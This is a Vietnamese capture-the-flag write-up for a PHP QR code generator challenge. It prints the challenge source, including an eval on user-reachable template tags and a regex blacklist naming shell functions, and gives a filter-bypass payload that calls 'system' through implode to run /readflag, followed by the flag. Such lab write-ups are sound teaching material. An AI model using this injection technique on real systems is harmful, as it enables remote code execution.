

# Description

> QR Code Generator with security additions
>
> Author: Nightcore
>
> public.zip

# TL;DR

Trang web cho phép người dùng tạo ra qr dựa trên dữ liệu nhập vào và xử lý gần như mọi thứ qua thẻ **{sys:gate}** và **{sys:qrcode}**. Hai thẻ đó sẽ được bắt bằng Regex và lấy nội dung bên trong để xử lý. Lỗ hổng nằm ở việc ta có thể chèn một đoạn code độc hại vào mà vẫn qua được các filter để đạt được RCE

> Thú thật bài này mình nhìn đống regex thấy đái quá mình vứt cho AI giải hộ luôn -_- cơ mà mình cũng sẽ cố gắng để giải thích nhiều thứ nhất có thể

# Initial reconnaissance



Trang web cho mình nhập một đoạn text bất kì vào ô nhập liệu và khi gửi đi mình sẽ được mã QR của đoạn text đó

Nghịch chán chê không có gì đặc biệt cả thì mình mò vào source xem có gì không


**Dockerfile**

```DOCKERFILE
COPY flag.txt /flag.txt
COPY readflag.c /tmp/readflag.c
RUN gcc /tmp/readflag.c -o /readflag && \
    chown root:root /flag.txt /readflag && \
    chmod 400 /flag.txt && \
    chmod 4755 /readflag && \
    rm /tmp/readflag.c

```

Dựa vào file docker thì cách duy nhất để đọc được `flag.txt` là ta phải chạy được file `readflag` do docker cấp quyền

Chall chỉ có hai file logic duy nhất là `index.php` và `security_filter.php`

**index.php**

```php
<?php

require_once 'security_filter.php';

error_reporting(0);


if (isset($_GET['genqr']) && !empty($_GET['genqr'])) {
    $text = substr($_GET['genqr'], 0, 200);
    include('phpqrcode/qrlib.php');
    header('Content-Type: image/png');
    header('Cache-Control: no-cache, must-revalidate');
    QRcode::png($text, false, QR_ECLEVEL_M, 8, 2);
    exit;
}

$qr_url = '';
$show_qr = false;

if (isset($_GET['qr']) && !empty($_GET['qr'])) {
    $qr_url = $_GET['qr'];
    $show_qr = true;
}

if (isset($_POST['url']) && !empty($_POST['url'])) {
    header('Location: ?qr=' . urlencode($_POST['url']));
    exit;
}

function sys_pref_region()
{
    static $cached_region = null;
    if ($cached_region !== null) {
        return $cached_region;
    }

    if (isset($_GET['region'])) {
        $r = $_GET['region'];

        if (!preg_match('/^[a-z]+$/i', $r)) {
            $r = 'en';
        }
        setcookie('sys_region', $r, time() + (86400 * 365), '/');
    } elseif (isset($_COOKIE['sys_region'])) {
        $r = $_COOKIE['sys_region'];
        if (!preg_match('/^[a-z]+$/i', $r)) {
            $r = 'en';
        }
    } else {
        $r = $_SERVER['HTTP_CF_IPCOUNTRY'] ?? 'en';
        setcookie('sys_region', $r, time() + (86400 * 365), '/');
    }

    $cached_region = $r;
    return $r;
}

function restoreMock($str)
{
    return $str;
}


class AppEngine
{

    private function restorePreLabel($str)
    {
        return $str;
    }


    public function parse_qr_tags($content)
    {
        global $qr_url, $show_qr;

        $pattern = '/\{sys:qrcode(\s+[^}]+)?\}/';

        if (preg_match_all($pattern, $content, $matches)) {
            $count = count($matches[0]);
            for ($i = 0; $i < $count; $i++) {
                $html = '';

                if ($show_qr && !empty($qr_url)) {
                    $html = '';
                } else {
                    $html = '<form method="POST" style="margin: 20px 0;" autocomplete="off">
                        <input type="text" name="url" placeholder="Enter URL to generate QR code" autocomplete="off"
                               style="width: 70%; padding: 12px; background: rgba(0, 20, 0, 0.8); 
                               border: 2px solid #0f0; color: #0f0; font-family: \'Courier New\', monospace; 
                               font-size: 1em; border-radius: 5px;" required>
                        <button type="submit" 
                                style="padding: 12px 25px; background: rgba(0, 255, 0, 0.2); 
                                border: 2px solid #0f0; color: #0f0; cursor: pointer; 
                                font-family: \'Courier New\', monospace; font-size: 1em; 
                                border-radius: 5px; margin-left: 10px; transition: all 0.3s;" 
                                onmouseover="this.style.background=\'rgba(0, 255, 0, 0.4)\'" 
                                onmouseout="this.style.background=\'rgba(0, 255, 0, 0.2)\'">
                            Generate QR
                        </button>
                    </form>';
                }

                $content = str_replace($matches[0][$i], $html, $content);
            }
        }
        return $content;
    }

    public function parse_logic_gates($content)
    {
        $pattern = '/\{sys:gate\(([^}^\$]+)\)\}([\s\S]*?)\{\/sys:gate\}/';

        if (preg_match_all($pattern, $content, $matches)) {
            $count = count($matches[0]);

            for ($i = 0; $i < $count; $i++) {
                $flag = '';
                $out_html = '';


                $white_fun = array('date', 'sys_pref_region');

                $matches[1][$i] = $this->restorePreLabel($matches[1][$i]);


                if (!security_check($matches[1][$i], $white_fun)) {
                    die('Security violation detected!');
                }

                @eval ('if(' . $matches[1][$i] . '){$flag="if";}else{$flag="else";}');

                if ($flag == 'if') {
                    $out_html = $matches[2][$i];
                }
                $content = str_replace($matches[0][$i], $out_html, $content);
            }
        }
        return $content;
    }

    public function render($tpl)
    {
        $tpl = $this->parse_qr_tags($tpl);
        $tpl = $this->parse_logic_gates($tpl);
        return $tpl;
    }
}


$app = new AppEngine();
$region = sys_pref_region();

$_tpl = <<<HTML
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>KCSC SECURE SHARE v12 | KMA Cyber Security Club</title>
    <style>
</head>
<body>
    <div class="matrix-bg"></div>
    <div class="container">
        <div class="header">
            
            <p class="club-name">KCSC</p>
            <h1>SECURE SHARE</h1>
            <p class="subtitle">{sys:gate(sys_pref_region()=='vn')}Công cụ tạo mã QR{/sys:gate}{sys:gate(sys_pref_region()!='vn')}QR Code Generator{/sys:gate}</p>
            <p style="margin-top: 10px;"><a href="?region=en" style="color: #0ff; text-decoration: none;">🇺🇸 EN</a> | <a href="?region=vn" style="color: #0ff; text-decoration: none;">🇻🇳 VN</a></p>
        </div>
        <div class="main-box">
            <div class="qr-section">
                <p>{sys:gate(sys_pref_region()=='vn')}Nhập URL để tạo mã QR:{/sys:gate}{sys:gate(sys_pref_region()!='vn')}Enter URL to generate QR code:{/sys:gate}</p>
                {sys:qrcode}
                <input type="hidden" id="current_url" value="http://{$_SERVER['HTTP_HOST']}{$_SERVER['SCRIPT_NAME']}{$_SERVER['QUERY_STRING']}">
            </div>
            <div style="display:none">{sys:gate(1==0)} SYSTEM_HEALTHY {/sys:gate}</div>
        </div>
        <div class="footer">
            <p>© 2025 KCSC - KMA Cyber Security Club</p>
        </div>
    </div>
    <script>
        document.addEventListener('DOMContentLoaded', function() {
            const matrixBg = document.querySelector('.matrix-bg');
            for (let i = 0; i < 20; i++) {
                const span = document.createElement('span');
                span.style.position = 'absolute';
                span.style.left = Math.random() * 100 + '%';
                span.style.animationDelay = Math.random() * 2 + 's';
                span.style.fontSize = Math.random() * 10 + 10 + 'px';
                span.textContent = String.fromCharCode(0x30A0 + Math.random() * 96);
                span.style.animation = 'fall 5s linear infinite';
                span.style.color = '#0f0';
                matrixBg.appendChild(span);
            }
        });
    </script>
</body>
</html>
HTML;

echo $app->render($_tpl);
```


**security_filter.php**

```php
<?php

// Current security check function
function security_check($input, $white_fun = [])
{
    if (preg_match_all('/([\w]+)([\x00-\x1F\x7F\/\*\<\>\%\w\s\\\\]+)?\(/i', $input, $matches2)) {
        foreach ($matches2[1] as $value) {
            if (function_exists(trim($value)) && !in_array($value, $white_fun)) {
                return false;
            }
        }
    }

    $blacklist_pattern = '/(\([\w\s\.]+\))|(\$_GET\[)|(\$_POST\[)|(\$_REQUEST\[)|(\$_COOKIE\[)|(\$_SESSION\[)|(file_put_contents)|(file_get_contents)|(fwrite)|(phpinfo)|(base64)|(`)|(shell_exec)|(eval)|(assert)|(system)|(exec)|(passthru)|(pcntl_exec)|(popen)|(proc_open)|(print_r)|(print)|(urldecode)|(chr)|(include)|(require)|(request)|(__FILE__)|(__DIR__)|(copy)|(call_user_)|(preg_replace)|(array_map)|(array_reverse)|(array_filter)|(getallheaders)|(get_headers)|(decode_string)|(htmlspecialchars)|(session_id)|(strrev)|(substr)|(\)\s*\()|(\.)|(\x5c)|(\bnew\b)|(Reflection)|(invoke)|(#)|(readfile)|(glob)|(scandir)|(var_dump)/i';

    if (preg_match($blacklist_pattern, $input, $matches)) {
        return false;
    }

    return true;
}
```

Sơ qua về cách hoạt động thì mọi thứ ban đầu sẽ ở hết trong biến `$_tpl` và web sẽ lấy các dữ liệu ở trong hai thẻ {sys:gate} và {sys:qrcode} bằng cách sử dụng **regex** và hàm `preg_match_all()`

Trong source code trên mình thấy xuất hiện một hàm eval mà có thể sử dụng để chèn hàm độc hại vào

```php
@eval ('if(' . $matches[1][$i] . '){$flag="if";}else{$flag="else";}');
```

Ngoài ra còn dòng này

```php
<input type="hidden" id="current_url" value="http://{$_SERVER['HTTP_HOST']}{$_SERVER['SCRIPT_NAME']}{$_SERVER['QUERY_STRING']}">
```

Toàn bộ input thô của mình trên url sau dấu ? hay tham số `$_SERVER['QUERY_STRING']` sẽ được xuất hiện ở trong biến `$_tpl` nên mình hướng tới việc tìm cách viết sao cho `$matches[1][$i]` nhận vào hàm độc hại mà mình muốn

# Exploit and get flag

Đến đây thì mình cũng đã cố tìm hiểu để làm cái wu cho chất lượng tí cơ mà ngồi mòn đít mình vẫn không tài nào hình dung ra được cách mà cái regex filter và luồng xử lý của hàm `preg_match_all()` hoạt động như nào :(

**Payload** ~~do Ai gen~~ cuối cùng là:

`?p={sys:gate(('implode')/**/('',['sys','tem'])/**/('/readflag'))}{/sys:gate}`

Để biến `$matches[1][$i]` lấy chính xác payload của mình thì bắt buộc phải gửi request thô mà không qua encode url


**Flag**: ```KCSC{m0t_lan_nua_ban_da_lam_duoc_g00d_j0bbb!!!}```